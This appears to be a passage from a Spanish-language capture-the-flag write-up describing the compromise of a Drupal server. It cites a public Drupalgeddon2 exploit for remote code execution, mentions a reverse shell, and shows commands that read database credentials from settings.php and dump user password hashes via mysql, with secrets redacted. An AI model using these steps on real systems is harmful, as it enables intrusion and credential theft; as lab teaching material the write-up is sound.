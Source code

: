 Utilicé este [exploit](https://github.com/dreadlocked/Drupalgeddon2){:target="\_blank"}{:rel="noopener nofollow"} para llevar a cabo este RCE.

Despues de esto, hago una reverse shell para tener una full TTY mas cómoda que la que me daba el exploit y ganamos acceso:

```bash

sh-4.2$ whoami

apache
```
Una vez estamos como el usuario apache empezamos a enumerar el sistema.

Tras buscar archivos de configuracion en /var/www/html en busca de credenciales, me encuentro con que el archivo /var/www/html/sites/default/settings.php
contiene credenciales para acceder a mysql:

```text

[...]

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'XXXXXXXXXXXX',
      'password' => 'XXXXXXXXXXXXXXX',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

[...]

```
Pruebo a conectarme al servicio mysql con las credenciales encontradas y son válidas: 

```bash
sh-4.2$ mysql -h localhost -uXXXXXXXXXX -pCXXXXXXXXXXXX -e "show databases;"
                      
Database
information_schema
drupal
mysql
performance_schema
```
Busco por credenciales en la base de datos drupal y consigo unas:

```bash

sh-4.2$ mysql -h localhost -uXXXXXXXXX -pXXXXXXXXXXXXXXX -D drupal -e "select name,pass from users;"

name	pass
	
bruXXXXXXXXXXin	$S$DgLXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXRt

```
